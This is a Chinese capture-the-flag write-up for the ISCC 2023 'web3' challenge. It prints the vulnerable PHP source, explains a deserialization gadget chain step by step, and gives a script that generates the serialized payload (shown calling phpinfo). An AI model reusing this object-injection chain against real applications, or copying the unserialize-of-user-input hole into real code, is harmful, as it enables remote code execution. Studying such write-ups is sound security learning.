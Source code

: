 # ISCC 2023

## WEB

### web3

```php
?> <?php
include("./xxxiscc.php");
class boy {
    public $like;
    public function __destruct() {
        echo "能请你喝杯奶茶吗？<br>";
        @$this->like->make_friends();
    }
    public function __toString() {
        echo "拱火大法好<br>";
        return $this->like->string;
    }
}

class girl {
    private $boyname;
    public function __call($func, $args) {
        echo "我害羞羞<br>";
        isset($this->boyname->name);  
    }
}

class helper {
    private $name;
    private $string;
    public function __construct($string) {
        $this->string = $string;
    }
    public function __isset($val) {
        echo "僚机上线<br>";
        echo $this->name;
    }
    public function __get($name) {
        echo "僚机不懈努力<br>";
        $var = $this->$name;
        $var[$name]();
    }
}
class love_story {
    public function love() {
        echo "爱情萌芽<br>";
        array_walk($this, function($make, $colo){
            echo "坠入爱河，给你爱的密码<br>";
            if ($make[0] === "girl_and_boy" && $colo === "fall_in_love") {
                global $flag;
                echo $flag;
            }
        });
    }
}

if (isset($_GET["iscc"])) {
    $a=unserialize($_GET['iscc']);
} else {
    highlight_file(__FILE__);
}
```

经典的PHP反序列化链子，我的思路如下：

1. 反序列化类销毁自动触发 boy 类的 destruct()，此时会调用 @$this->like->make_friends();

将 this->like 设为 一个 girl 类对象，此时会触发 girl 类的 __call 魔术方法。

2. 在 girl 的 __call 魔术方法中会触发 isset($this->boyname->name);

若将 this->boyname 设为 helper 类对象，此时会自动触发 helper 类的 __isset() 魔术方法，在这个方法中会调用 echo $this->name; 

如果 this->name 是一个 boy 类对象，那么此时会触发 boy 类的 __toString() 方法

3. 在 boy 类的 __toString() 方法中会调用 $this->like->string;

如果 this->like 是一个 helper 类对象，此时会自动触发该类的 __get() 魔术方法

然后调用的是

```
$var = $this->$name;
$var[$name]();
```

$name 传进来是 “string”

所以相当于调用 $this->string，若这个值是 love_story 类对象



```
<?php

class boy {
    public $like;
    public function __construct($a){
        $this->like = $a;
    }
    public function __destruct() {
        echo "能请你喝杯奶茶吗？<br>";
        @$this->like->make_friends();
    }
    public function __toString() {
        echo "拱火大法好<br>";

        return $this->like->string;
    }
}

class girl {
    private $boyname;
    public function __construct($a){
        $this->boyname = $a;
    }
    public function __call($func, $args) {
        echo "我害羞羞<br>";
        isset($this->boyname->name);
    }
}

class helper {
    private $name;
    private $string;
    public function __construct($name,$string) {
        $this->name = $name;
        $this->string = $string;
    }
    public function __isset($val) {
        echo "僚机上线<br>";
        echo $this->name;
    }
    public function __get($name) {

        echo "僚机不懈努力<br>";
        $var = $this->$name;
        var_dump("\n");
        var_dump($var);
        $var[$name]();
        //

    }
}
class love_story {
    public function love() {
        echo "爱情萌芽<br>";
        //$this = array("fall_in_love"=>"girl_and_boy");
        #var_dump("当前的this".$this);
        array_walk($this, function($make, $colo){
            echo "坠入爱河，给你爱的密码<br>";
            if ($make[0] === "girl_and_boy" && $colo === "fall_in_love") {
                global $flag;
                echo $flag;
            }
        }
        );
    }
}

$love_story1 = new love_story();
$test = array("string"=>"phpinfo");
$helper2 = new helper("test",$test);

$boy2 = new boy($helper2);

$helper1 = new helper($boy2,$boy2);

$girl1 = new girl($helper1);

$boy1 = new boy($girl1);


$ans = urlencode(serialize($boy1));

var_dump($ans);


```


